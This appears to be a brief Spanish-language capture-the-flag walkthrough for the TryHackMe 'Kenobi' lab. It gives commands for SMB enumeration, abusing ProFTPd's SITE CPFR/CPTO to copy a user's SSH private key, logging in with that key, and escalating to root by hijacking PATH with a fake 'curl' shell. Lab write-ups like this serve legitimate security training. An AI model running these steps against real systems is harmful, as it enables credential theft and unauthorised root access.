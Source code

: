 # Kenobi - TryHackMe 
**IP:** 10.10.171.50

##   Enumeración SMB

```bash

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.171.50
Acceso anónimo:
  ```
```bash

smbclient //10.10.171.50/anonymous
smbget -R smb://10.10.171.50/anonymous
  ```
##   Explotación de ProFTPd

Robo de clave SSH:

```bash

SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
Acceso SSH:

```bash

chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.171.50
  ```
##  Escalada de Privilegios

Manipulación de PATH:

```bash

echo "/bin/sh" > /tmp/curl
chmod +x /tmp/curl
export PATH=/tmp:$PATH
/usr/bin/menu
  ```
